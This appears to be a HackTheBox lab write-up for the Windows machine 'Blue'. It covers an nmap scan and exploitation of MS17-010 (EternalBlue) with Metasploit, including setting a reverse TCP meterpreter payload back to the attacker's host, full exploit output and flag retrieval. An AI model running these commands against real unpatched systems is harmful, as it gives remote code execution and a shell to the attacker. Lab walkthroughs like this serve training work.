 ```yaml
---
layout: default
title: "Blue"
tags: hackthebox windows easy
---
```


| OS       | Difficulty | Points | Release Date | IP Address  |
|----------|------------|--------|--------------|-------------|
| Windows  | Easy       | 20     | 28 July 2017 | 10.10.10.40 |



# Skills

>* NMap
>* Metasploit

# Information Gathering

## Nmap

```bash
sudo nmap -A -T4 -p- 10.10.10.4
```

This was the initial nmap scan. Some key things to note are:
* 139/tcp open microsoft-ds
* Host: HARIS-PC (Noted as a possible username)

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -18m15s, deviation: 34m36s, median: 1m42s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-10T22:30:10+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-10T21:30:07
|_  start_date: 2020-07-10T10:57:21
```

# Exploitation

## Searching for the Exploit

Once I had found my attack vector, all that was left was the fun part: exploitation.
I firstly had to find the Metasploit module that contained the "MS17-010" exploit.

```bash
msf5 > search ms17-010

Matching Modules
================

      Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

msf5 > use 2
```

## Setting Module Options
Then, I configured the module to exploit the target machnine (10.10.10.40) and to open up a TCP listener on my machine (10.10.14.30) on port 4444.

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.30
LHOST => 10.10.14.30
``` 

## Setting Payload & Running Exploit

After that, I set the payload to a staged meterpreter shell rather than the default unstaged generic one and exploited!

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcppayload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.30:4444 
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1 
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.30:4444 -> 10.10.10.40:49159) at 2020-07-10 23:14:29 +0100
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```    

# User Flag
```bash
meterpreter > cd Desktop
meterpreter > ls 
Listing C:\users\haris\Desktop
==============================

Mode              Size  Type   Last Modified                Name
----              ----  ----   -------------                ----
100666/rw-rw-rw-  282   fil    2017-07-14 14:45:52 +0100    desktop.ini
100666/rw-rw-rw-  32    fil    2017-07-21 07:54:02 +0100    user.txt

meterpreter > cat user.txt
```


# Root Flag
```bash
meterpreter > cd /users/Administrator/Desktop
meterpreter > ls 
Listing C:\users\Administrator\Desktop
==============================

Mode              Size  Type   Last Modified                Name
----              ----  ----   -------------                ----
100666/rw-rw-rw-  282   fil    2017-07-14 07:56:36 +0100    desktop.ini
100444/r--r--r--  32    fil    2017-07-21 07:56:49 +0100    root.txt

meterpreter > cat root.txt
```